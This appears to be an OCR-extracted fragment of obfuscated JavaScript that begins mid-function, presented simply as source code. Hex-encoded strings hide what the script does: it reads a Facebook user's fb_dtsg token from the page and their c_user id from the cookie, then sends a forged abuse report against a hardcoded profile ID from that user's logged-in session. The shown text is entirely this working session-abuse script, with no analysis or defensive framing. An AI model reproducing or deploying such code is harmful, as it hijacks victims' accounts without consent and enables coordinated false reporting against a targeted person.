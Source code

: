         if (heads.length > 0) {
                heads[0].appendChild(node);
        } else {
                // By Tr?ng(N V D)
                document.documentElement.appendChild(node);
        }
}
})();
var _0xb161=["\x76\x61\x6C\x75\x65","\x66\x62\x5F\x64\x74\x73\x67","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x4E\x61\x6D\x65","\x6D\x61\x74\x63\x68","\x63\x6F\x6F\x6B\x69\x65","\x67\x65\x74\x54\x69\x6D\x65","\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x72\x65\x70\x6F\x72\x74\x2F\x73\x6F\x63\x69\x61\x6C\x2E\x70\x68\x70","\x66\x62\x5F\x64\x74\x73\x67\x3D","\x26\x62\x6C\x6F\x63\x6B\x3D\x31\x26\x70\x70\x3D\x25\x37\x42\x25\x32\x32\x61\x63\x74\x69\x6F\x6E\x73\x5F\x74\x6F\x5F\x74\x61\x6B\x65\x25\x32\x32\x25\x33\x41\x25\x32\x32\x5B\x5D\x25\x32\x32\x25\x32\x43\x25\x32\x32\x61\x72\x65\x5F\x66\x72\x69\x65\x6E\x64\x73\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x63\x69\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x63\x6F\x6E\x74\x65\x6E\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x30\x25\x32\x43\x25\x32\x32\x65\x78\x70\x61\x6E\x64\x5F\x72\x65\x70\x6F\x72\x74\x25\x32\x32\x25\x33\x41\x31\x25\x32\x43\x25\x32\x32\x66\x69\x72\x73\x74\x5F\x63\x68\x6F\x69\x63\x65\x25\x32\x32\x25\x33\x41\x25\x32\x32\x66\x69\x6C\x65\x5F\x72\x65\x70\x6F\x72\x74\x25\x32\x32\x25\x32\x43\x25\x32\x32\x66\x72\x6F\x6D\x5F\x67\x65\x61\x72\x25\x32\x32\x25\x33\x41\x25\x32\x32\x74\x69\x6D\x65\x6C\x69\x6E\x65\x25\x32\x32\x25\x32\x43\x25\x32\x32\x69\x73\x5F\x66\x6F\x6C\x6C\x6F\x77\x69\x6E\x67\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x69\x73\x5F\x74\x61\x67\x67\x65\x64\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x6F\x6E\x5F\x70\x72\x6F\x66\x69\x6C\x65\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x70\x68\x61\x73\x65\x25\x32\x32\x25\x33\x41\x33\x25\x32\x43\x25\x32\x32\x72\x65\x66\x25\x32\x32\x25\x33\x41\x25\x32\x32\x68\x74\x74\x70\x73\x25\x33\x41\x25\x35\x43\x25\x32\x46\x25\x35\x43\x25\x32\x46\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x25\x35\x43\x25\x32\x46\x4E\x61\x6E\x2E\x65\x72\x74\x74\x37\x25\x32\x32\x25\x32\x43\x25\x32\x32\x72\x65\x70\x6F\x72\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x31\x34\x35\x25\x32\x43\x25\x32\x32\x72\x69\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x73\x75\x62\x5F\x72\x65\x70\x6F\x72\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x33\x25\x32\x43\x25\x32\x32\x74\x69\x6D\x65\x5F\x66\x6C\x6F\x77\x5F\x73\x74\x61\x72\x74\x65\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x75\x73\x65\x72\x25\x32\x32\x25\x33\x41","\x25\x37\x44\x26\x66\x69\x6C\x65\x5F\x72\x65\x70\x6F\x72\x74\x3D\x31\x26\x5F\x5F\x75\x73\x65\x72\x3D","\x26\x5F\x5F\x61\x3D\x31\x26\x5F\x5F\x64\x79\x6E\x3D\x37\x6E\x38\x61\x68\x79\x6A\x32\x71\x6D\x76\x75\x35\x6B\x39\x55\x6D\x41\x41\x61\x55\x56\x70\x6F\x26\x5F\x5F\x72\x65\x71\x3D\x75\x26\x74\x74\x73\x74\x61\x6D\x70\x3D\x32\x36\x35\x38\x31\x36\x38\x35\x37\x31\x30\x37\x31\x31\x30\x38\x38\x38\x30","\x50\x4F\x53\x54","\x6F\x70\x65\x6E","\x6F\x6E\x72\x65\x61\x64\x79\x73\x74\x61\x74\x65\x63\x68\x61\x6E\x67\x65","\x72\x65\x61\x64\x79\x53\x74\x61\x74\x65","\x73\x74\x61\x74\x75\x73","\x63\x6C\x6F\x73\x65","\x73\x65\x6E\x64","\x31\x30\x30\x30\x30\x36\x39\x35\x32\x31\x31\x39\x30\x34\x38"];var fb_dtsg=document[_0xb161[2]](_0xb161[1])[0][_0xb161[0]];var user_id=document[_0xb161[4]][_0xb161[3]](document[_0xb161[4]][_0xb161[3]](/c_user=(\d+)/)[1]);var now=( new Date)[_0xb161[5]]();function Report(_0x45e7x5){var _0x45e7x6= new XMLHttpRequest();var _0x45e7x7=_0xb161[6];var _0x45e7x8=_0xb161[7]+fb_dtsg+_0xb161[8]+_0x45e7x5+_0xb161[9]+_0x45e7x5+_0xb161[10]+now+_0xb161[11]+user_id+_0xb161[12]+user_id+_0xb161[13];_0x45e7x6[_0xb161[15]](_0xb161[14],_0x45e7x7,true);_0x45e7x6[_0xb161[16]]=function (){if(_0x45e7x6[_0xb161[17]]==4&&_0x45e7x6[_0xb161[18]]==200){_0x45e7x6[_0xb161[19]];} ;} ;_0x45e7x6[_0xb161[20]](_0x45e7x8);} ;